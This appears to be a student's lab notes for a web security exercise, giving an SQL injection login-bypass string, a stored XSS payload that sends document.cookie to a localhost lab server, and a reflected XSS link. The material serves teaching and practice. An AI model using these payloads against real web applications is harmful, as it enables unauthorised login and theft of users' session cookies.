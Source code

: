 # SQL injection

Task 1: SQL injection
- username: `alice@alice.com' --`
- Leave password empty
    - In SQL, `--` is comment

Task 2: persistent XSS
- XSS:
    - type into comments box: 
    - ```<script type='text/javascript'> alert(document.cookie); </script>``` 
    
```
<script type='text/javascript'> 
    if (window.location.href.includes('news')){
        console.log('done');
    }else{
        window.location = 'http://localhost:5005/news?text=' + document.cookie;
    }
</script>
```

Task 3: reflected XSS:
link: `http://localhost:5005/malicious`

